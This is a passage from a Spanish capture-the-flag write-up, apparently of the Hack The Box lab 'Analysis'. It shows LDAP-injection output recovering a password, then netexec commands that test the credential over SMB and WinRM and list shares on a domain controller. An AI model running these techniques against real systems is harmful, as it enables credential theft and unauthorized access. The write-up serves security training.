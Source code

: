Si lo dejamos un rato..

```shell
$ python3 description.py 
[▃] Usuario ->: technician
[+] Probando carácter ->: Descripción final descubierta: 97NTtl
```

Pero esta credencial es inválida.
```shell
$ nxc smb 10.129.230.179 -u technician -p 97NTtl
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [-] analysis.htb\technician:97NTtl STATUS_LOGON_FAILURE
```

He omitido los caracteres `(` `)` y `*` porque rompían la inyección, por lo cual supongo que la credencial contiene alguno de estos caracteres.

![Write-up Image](images/Screenshot_11.png)

Añado el carácter `*`. El problema es que puede dar falsos positivos, si esto es así, bruteforcearé luego con `netexec` los posibles campos que falten.

```shell
$ python3 description.py 
[d] Usuario ->: technician
[↗] Probando carácter ->: 97NTtl*4QP96Bv**aaaaaaaaaaa
```

La `a` surge ya que la consulta por LDAP se rompe al introducir doble `*`. Por lo cual podemos probar como credencial `97NTtl*4QP96Bv` 

¡Y es válida!
```shell
$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [+] analysis.htb\technician:97NTtl*4QP96Bv
```

Este usuario no está en el grupo de `Remote Management Users` por lo cual no podemos conseguir una consola interactiva utilizando herramientas como `evil-winrm`
```shell
$ nxc winrm 10.129.230.179 -u technician -p '97NTtl*4QP96Bv'
WINRM       10.129.230.179  5985   DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 (name:DC-ANALYSIS) (domain:analysis.htb)
WINRM       10.129.230.179  5985   DC-ANALYSIS      [-] analysis.htb\technician:97NTtl*4QP96Bv
```

Por SMB tampoco vemos ningún recurso compartido a nivel de red interesante.
```shell
$ nxc smb 10.129.230.179 -u technician -p '97NTtl*4QP96Bv' --shares
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-ANALYSIS) (domain:analysis.htb) (signing:True) (SMBv1:False)
SMB         10.129.230.179  445    DC-ANALYSIS      [+] analysis.htb\technician:97NTtl*4QP96Bv
SMB         10.129.230.179  445    DC-ANALYSIS      [*] Enumerated shares
SMB         10.129.230.179  445    DC-ANALYSIS      Share           Permissions     Remark
SMB         10.129.230.179  445    DC-ANALYSIS      -----           -----------     ------
SMB         10.129.230.179  445    DC-ANALYSIS      ADMIN$                          Administration à distance
SMB         10.129.230.179  445    DC-ANALYSIS      C$                              Partage par défaut
SMB         10.129.230.179  445    DC-ANALYSIS      IPC$            READ            IPC distant
```